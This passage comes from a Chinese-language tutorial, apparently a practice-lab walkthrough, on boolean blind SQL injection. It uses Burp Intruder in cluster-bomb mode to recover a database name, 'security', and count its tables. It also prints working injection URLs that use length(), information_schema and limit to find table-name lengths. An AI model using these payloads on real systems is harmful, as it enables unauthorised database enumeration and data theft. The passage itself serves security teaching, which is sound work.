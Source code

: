 这里还可以进阶一下，使用集束炸弹模式，将字符位置设置为 Payload 1，字符内容设置为 Payload 2，实现一次爆破出所有字符  
[![](assets/1707953831-6e06b0fe09962d06308fd13b113dd9e1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240204191855-2ef98cc0-c34f-1.png)  
我们对一到八位依次判断后可以发现库名为 security，这里还可以用`ascii()`函数和`substr()`函数嵌套或使用`left()`函数实现，但都没有直接用`substr()`函数 + Intruder 模块方便，这里就不再赘述

之后我们使用`count()`函数来判断表的个数，这里依然可以使用 Intruder 模块，判断出有四个表  
[![](assets/1707953831-99eb629aba3f265e7dad5c2b2dffa566.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240204191927-424e4a04-c34f-1.png)  
个数清晰后再来判断每个表名的长度，这里使用了`limit`方法，语法如下

```plain
limit N,M   //从第 N 条记录开始，返回 M 条记录
```

这里依次判断表的长度：

```plain
第一个表长度为 6
?id=1' and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=6 --+

第二个表长度为 8
?id=1' and length((select table_name from information_schema.tables where table_schema=database() limit 1,1))=8 --+

第三个表长度为 7
?id=1' and length((select table_name from information_schema.tables where table_schema=database() limit 2,1))=7 --+

```